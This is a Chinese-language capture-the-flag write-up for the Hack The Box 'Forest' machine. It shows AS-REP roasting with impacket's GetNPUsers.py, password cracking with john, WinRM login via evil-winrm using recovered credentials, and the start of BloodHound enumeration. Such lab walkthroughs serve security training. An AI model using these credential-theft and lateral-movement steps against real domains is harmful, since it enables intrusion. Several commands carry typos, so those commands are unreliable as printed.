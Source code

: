 ### [2.1]安装impacket、GetNPUsers.py脚本
- [imapcket](https://github.com/SecureAuthCorp/impacket.git)
- 下载方式
```bash
root@kali:~/HTB/Forest$ git clone https://github.com/SecureAuthCorp/impacket.git impacket-tools
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200325000517900.png#pic_center)
### [2.2]使用GetNPUsers.py脚本

```bash
root@kali:~/HTB/Forest$ python imapchet-tools/examples/GetNPUsers.py htb.local/ -usersfile userlist.txt -format john -outputfile hashed -dc-ip 10.10.10.161
```

	  htb.local 这是我们从nmap输出提取的域名
	 -usersfile 这是我们要测试userfile.txt的用户列表，我们充enum4linux输出中提取的有效用户列表
	 -format john 设置为john格式，因此我们可以轻松破解
	 -outputfile hashed 将哈希保存在hashed文件中
	 -dc-ip 靶机的IP地址

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200325004342754.png)
 从输出上来看这些似乎没什么用，hashed是加密的哈希格式，并且有一个用户的ID：**svc-alfresco**
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200325004612629.png)
- 使用john对hashed文件进行破解
```bash
root@kali:~/HTB/Forest$ john --wordlist=/usr/share/worlists/rockyou.txt
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200325003357509.png#pic_center)
破解之后我们发现密码为**s3rvice**。

### [2.3]获得访问权限
(WinRM）是一种Microsoft协议，允许使用SOAP通过HTTP（S）远程管理Windows计算机。在后端，它利用WMI，因此您可以将其视为WMI的基于HTTP的API。
由于Windows远程管理（WinRM）再5985上已经启用，让我们使用evil-winrm工具尝试攻击。
- evil-winrm安装以及使用
```bash
root@kali:~/HTB/Forest$ gem install evil-winrm 
root@kali:~/HTB/Forest$ evil-winrm -i 10.10.10.161 -u svc-aflresco -p s3rvice
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200325005522719.png#pic_center)
我们成功登录了svc-alfresco用户。
## [3]本地侦擦和枚举
### [3.1]基本信息
- 当我们成功的登录到目标机上，我们可以使用whoami命令来指定用户所属的组
```bash
PS C:\> whoami /groups
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200326003000751.png)
我们发现服务账号还具有该**Account Operator**角色，这意味着它可以创建用户并将其添加到组中。
接下来我们可以使用**BloodHound**这个非常有用的工具，它可以在**Active Directory**环境中自动查找有趣的路径以提升特权。首先我们要做的是从**Active Directory**收集必要的数据。可以实现**Blood Hound ingester** 称为**Sharp Hound**(使用二进制或者Powershell的脚本)，并与从再域中的任何计算机域的任何用户。
